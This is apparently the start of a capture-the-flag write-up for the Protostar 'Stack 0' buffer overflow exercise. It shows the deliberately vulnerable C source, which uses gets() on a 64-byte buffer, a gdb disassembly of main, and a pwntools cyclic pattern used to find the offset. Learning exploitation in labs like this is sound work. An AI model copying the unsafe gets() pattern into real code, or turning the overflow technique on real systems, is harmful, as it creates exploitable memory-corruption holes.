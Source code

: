 ## Stack 0

Here's the source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}

```

I'm going to open it on gdb

```bash
$ gdb stack0
(gdb) set disassembly-flavor intel
(gdb) disass main
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave  
0x08048434 <main+64>:   ret    
End of assembler dump.
```

I'm going to create a cyclic pattern using pwntools
```python
$ python3
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```
